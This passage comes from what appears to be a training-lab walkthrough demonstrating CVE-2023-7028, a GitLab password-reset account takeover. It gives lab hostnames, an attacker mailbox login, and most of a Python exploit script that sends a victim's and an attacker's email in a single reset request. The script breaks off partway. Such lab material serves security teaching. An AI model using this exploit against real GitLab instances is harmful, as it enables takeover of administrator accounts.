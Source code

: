 <br>
<p>Exploiting the vulnerability is simple for a red teamer and only requires an API call to <code>/users/password</code> method with the victim and target email address.</p>
<br>
<h3>Connecting to the Machine</h3>
<p>We will use an Ubuntu-based machine hosting a GitLab instance to demonstrate the room's red team perspective. Start the virtual machine by clicking the <code>Start Machine</code>code> button in this task. Please wait 2-3 minutes for the machine to fully boot up. You can access the vulnerable GitLab instance by visiting the URL <code>http://gitlab.thm:8000</code>, but first, you need to add the hostname to your OS or AttackBox.</p>

<p align="center"> <img width="750px" src="https://github.com/user-attachments/assets/73450bce-e258-469d-b401-aeeb8caa751e"></p>

<p>Moreover, the email server is accessible at <code>http://10.10.143.20:8090/rainloop</code>,  which will be used during exploitation with the following credentials:<br>
- Username: <code>attacker@mail.gitlab.thm</code>code><br>
- Password: <code>testing@123</code></p>
<br>
<h3>Preparing the Payload</h3>
<p>We will be using a modified version of the <a href="https://github.com/Vozec/CVE-2023-7028/blob/main/CVE-2023-7028.py">PoC</a> developed by Vozec to take control of the administrator account. Create a new file called <code>attack.py</code> and add the following code.</p>
<br>

<p align="center">attack.py</p>
<pre><code>
import requests
import argparse
from urllib.parse import urlparse, urlencode
from random import choice
from time import sleep
import re
requests.packages.urllib3.disable_warnings()
class CVE_2023_7028:
    def __init__(self, url, target, evil=None):
        self.use_temp_mail = False
        self.url = urlparse(url)
        self.target = target
        self.evil = evil
        self.s = requests.session()
    def get_csrf_token(self):
        try:
            print('[DEBUG] Getting authenticity_token ...')
            html = self.s.get(f'{self.url.scheme}://{self.url.netloc}/users/password/new', verify=False).text
            regex = r'<meta name="csrf-token" content="(.*?)" />'
            token = re.findall(regex, html)[0]
            print(f'[DEBUG] authenticity_token = {token}')
            return token
        except Exception:
            print('[DEBUG] Failed ... quitting')
            return None
    def ask_reset(self):
        token = self.get_csrf_token()
        if not token:
            return False
        query_string = urlencode({
            'authenticity_token': token,
            'user[email][]': [self.target, self.evil]
        }, doseq=True)
        head = {
            'Origin': f'{self.url.scheme}://{self.url.netloc}',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
            'Content-Type': 'application/x-www-form-urlencoded',
            'Referer': f'{self.url.scheme}://{self.url.netloc}/users/password/new',
